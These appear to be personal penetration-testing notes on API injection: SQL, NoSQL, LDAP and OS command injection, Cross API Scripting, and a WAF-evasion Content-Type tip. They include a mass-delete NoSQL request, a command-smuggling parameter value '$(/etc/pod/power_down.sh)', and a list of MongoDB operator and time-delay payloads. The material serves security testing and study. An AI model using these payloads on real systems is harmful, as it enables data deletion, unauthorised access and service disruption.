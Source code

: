 this result of lack of input sanitization Security Misconfigurations
inject some SQL, Non-SQL `DELETE /api/bookings?bookingId[$ne]=678`, LDAP, OS command `appid=$(/etc/pod/power_down.sh)`injections in body, or url parameters , may the API pass your data directly to DBMS
> use payloads and injection all from [[vulns checklist/*]] 

> *NoSQLi* is more likely happened than *SQLi*, cuz of APIs commonly use NoSQL databases due to how well they scale with the architecture designs common among APIs
#### Cross Api Scripting (XAS)
>this happened when the API used on web third-party app, and XSS payload submitted got executed on it, because lack of input sanitization, where the web trust data come from that api

XAS does have more complexities than XSS, because the web applica- tion must meet certain conditions:
- The web app must poorly sanitize the data submitted through its own API or a third- party one
- The API input must also be injected into the web application in a way that would launch the script
- third-party API, may be limited the number of requests you can make through its platform.
- XAS inherent same XSS challenges; input validation, bypass WAF
if sending XSS/XAS payload make 400 res, try to change `Content-Type: text/html` 

#### No-SQL injection
> *NoSQL* is an umbrella term that means the database does not use SQL
when sending nested objects like`{"$gt":""}` don't around the object with double quotes 
 ~~`"{"$gt":""}"`~~
```mongodb
$gt 
{"$gt":""} 
{"$gt":-1} 
$ne 
{"$ne":""} 
{"$ne":-1} 
$nin 
{"$nin":1} 
{"$nin":[1]} 
|| '1'=='1 
// 
||'a'\\'a 
'||'1'=='1';// 
'/{}: 
'"\;{} 
'"\/$[].> 
{"$where": "sleep(1000)"}
```